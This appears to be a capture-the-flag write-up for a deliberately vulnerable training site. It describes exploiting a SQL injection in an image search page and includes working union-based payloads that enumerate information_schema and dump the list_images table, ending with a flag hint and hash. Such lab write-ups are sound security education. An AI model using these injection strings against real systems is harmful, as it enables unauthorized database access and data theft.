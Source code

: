 in the search images page, we put 1 OR 1=1, we have successfully got the all imaages, so there is a sql injection here, we tried the payloads sql injection attack from here https://github.com/payloadbox/sql-injection-payload-list , when we tried the union attack with 5 UNION ALL SELECT 1,2, we got the number of rows which is 2, so we usd CONCAT with information.schecma by this command 5 UNION SELECT 1, CONCAT(table_name,1000001,column_name) FROM information_schema.columns, and we found that there is a table called list images, and it has id, url, title, and comment.

with this command we can see all of these information

5 UNION SELECT 1, CONCAT(id, url, title, comment) from list_images

and we got this 

ID: 5 UNION SELECT 1, CONCAT(id, url, title, comment) from list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
